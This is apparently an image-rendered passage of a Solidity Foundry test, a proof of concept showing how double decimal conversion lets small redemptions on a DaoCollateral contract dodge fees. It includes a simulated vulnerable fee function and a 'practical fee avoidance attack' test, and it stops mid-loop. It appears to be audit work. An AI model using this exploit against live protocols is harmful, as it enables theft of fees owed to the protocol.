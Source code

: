 ```solidity
     * @dev Simulates the vulnerable fee calculation from DaoCollateral.sol
     */
    function _simulateVulnerableFeeCalculation(uint256 eth0Amount, address collateralToken) 
        internal view returns (uint256 stableFee) 
    {
        // Step 1: Calculate base fee
        stableFee = Math.mulDiv(eth0Amount, daoCollateral.redeemFee(), BASIS_POINT_BASE, Math.Rounding.Floor);
        
        uint8 tokenDecimals = IERC20Metadata(collateralToken).decimals();
        
        // Step 2: Apply vulnerable precision loss (if token has < 18 decimals)
        if (tokenDecimals < 18) {
            // VULNERABILITY: Double conversion causes precision loss
            // Down-scale to token decimals (loses precision)
            uint256 scaledDown = Normalize.wadAmountToDecimals(stableFee, tokenDecimals);
            
            // Up-scale back to 18 decimals (cannot recover lost precision)
            stableFee = Normalize.tokenAmountToWad(scaledDown, tokenDecimals);
        }
    }
    
    /**
     * @dev Demonstrates a practical attack exploiting fee precision loss
     */
    function testPracticalFeeAvoidanceAttack() public {
        console.log("\n=== PRACTICAL FEE AVOIDANCE ATTACK ===");
        
        // Setup 6-decimal token (like USDC)
        uint256 amount = 1000e6; // 1000 tokens
        (RwaMock token6, Eth0 eth0Token) = _setupTokenWithDecimals(6, amount);
        
        // Setup 18-decimal token for comparison  
        (RwaMock token18,) = _setupTokenWithDecimals(18, amount * 1e12);
        
        console.log("Comparing fee losses between 6-decimal and 18-decimal tokens");
        
        // Alice swaps both token types
        vm.startPrank(alice);
        daoCollateral.swap(address(token6), amount, 0);
        daoCollateral.swap(address(token18), amount * 1e12, 0);
        vm.stopPrank();
        
        uint256 eth0Balance6 = amount * 1e12;  // From 6-decimal token
        uint256 eth0Balance18 = amount * 1e12; // From 18-decimal token
        
        // Test fee calculation for small redemption amounts
        uint256[] memory testRedeemAmounts = new uint256[](3);
        testRedeemAmounts[0] = 99_999_999_999_999;  // ~0.0001 ETH0
        testRedeemAmounts[1] = 999_999_999_999_999; // ~0.001 ETH0  
        testRedeemAmounts[2] = 9_999_999_999_999_999; // ~0.01 ETH0
        
        console.log("\nTesting fee calculations for different redemption amounts:");
        
        for (uint256 i = 0; i < testRedeemAmounts.length; i++) {
            uint256 redeemAmount = testRedeemAmounts[i];
            
            uint256 fee6 = _simulateVulnerableFeeCalculation(redeemAmount, address(token6));
            uint256 fee18 = _simulateVulnerableFeeCalculation(redeemAmount, address(token18));
            uint256 expectedFee = Math.mulDiv(redeemAmount, daoCollateral.redeemFee(), BASIS_POINT_BASE, Math.Rounding.Floor);
            
            console.log("\nRedemption amount:", redeemAmount / 1e15, "* 1e15");
```